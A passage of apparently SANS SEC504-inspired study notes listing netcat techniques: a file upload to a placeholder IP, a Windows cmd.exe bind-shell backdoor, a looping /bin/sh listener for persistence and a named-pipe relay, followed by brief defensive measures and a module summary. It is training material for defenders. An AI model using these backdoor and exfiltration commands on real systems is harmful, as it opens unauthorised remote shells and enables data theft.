 * Client upload:

```bash
nc <ip> 4444 < file.txt
```

* Backdoor (Windows):

```bash
nc -l -p 1234 -e cmd.exe
```

### Persistent Listener (Linux)

```bash
while true; do nc -l -p 4444 -e /bin/sh; done
```

### Netcat Relay

```bash
mkfifo backpipe
nc -l -p 2222 < backpipe | nc 10.0.0.1 80 > backpipe
```

### Defensive Measures

* Monitor for odd open ports
* Block unused ports at network and host layers
* Alert on unexpected shell processes tied to open sockets

---

## Summary

This module explores the lifecycle of password abuse from login attempts to hash cracking and cloud enumeration. It emphasizes the need for layered defenses, creative detection, and making stolen credentials valueless through modern authentication practices.

*Credit to SANS SEC504 for guiding the understanding behind these techniques and defenses.*
